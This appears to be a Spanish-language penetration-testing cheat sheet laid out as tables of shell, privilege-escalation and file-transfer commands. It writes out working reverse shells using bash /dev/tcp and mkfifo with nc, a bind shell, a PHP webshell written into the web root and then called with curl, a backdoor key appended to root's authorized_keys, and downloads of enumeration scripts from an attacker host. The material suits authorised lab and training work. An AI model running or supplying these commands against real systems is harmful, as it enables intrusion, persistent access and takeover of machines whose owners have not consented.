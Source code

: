 ### Uso de Shells
| Comando                                                                                   | Descripción                                      |
|-------------------------------------------------------------------------------------------|--------------------------------------------------|
| `nc -lvnp 1234`                                                                           | Iniciar un oyente nc en un puerto local          |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                     | Enviar una shell inversa desde el servidor remoto |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`          | Otro comando para enviar una shell inversa        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`               | Iniciar una shell enlazada en el servidor remoto  |
| `nc 10.10.10.1 1234`                                                                      | Conectar a una shell enlazada iniciada en el servidor remoto |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                          | Actualizar TTY de la shell (1)                   |
| `ctrl+z then stty raw -echo then fg then enter twice`                                     | Actualizar TTY de la shell (2)                   |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                        | Crear un archivo php para webshell               |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                             | Ejecutar un comando en una webshell cargada      |

### Escalada de Privilegios
| Comando                                             | Descripción                                          |
|-----------------------------------------------------|------------------------------------------------------|
| `./linpeas.sh`                                      | Ejecutar script linpeas para enumerar servidor remoto |
| `sudo -l`                                           | Listar privilegios sudo disponibles                  |
| `sudo -u user /bin/echo Hello World!`               | Ejecutar un comando con sudo                         |
| `sudo su -`                                         | Cambiar a usuario root (si tenemos acceso a sudo su) |
| `sudo su user -`                                    | Cambiar a un usuario (si tenemos acceso a sudo su)   |
| `ssh-keygen -f key`                                 | Crear una nueva clave SSH                            |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Añadir la clave pública generada al usuario |
| `ssh root@10.10.10.10 -i key`                       | SSH al servidor con la clave privada generada        |

### Transferencia de Archivos
| Comando                                                               | Descripción                                      |
|-----------------------------------------------------------------------|--------------------------------------------------|
| `python3 -m http.server 8000`                                         | Iniciar un servidor web local                    |
| `wget http://10.10.14.1:8000/linpeas.sh`                              | Descargar un archivo en el servidor remoto       |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                | Descargar un archivo en el servidor remoto       |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                      | Transferir un archivo al servidor remoto con scp |
| `base64 shell -w 0`                                                   | Convertir un archivo a base64                    |
| `echo f0VMR...SNIO...InmDwU | base64 -d > shell`                      | Convertir un archivo de base64 a su formato original |
| `md5sum shell`                                                        | Verificar el md5sum del archivo para asegurarse de que se convirtió correctamente |
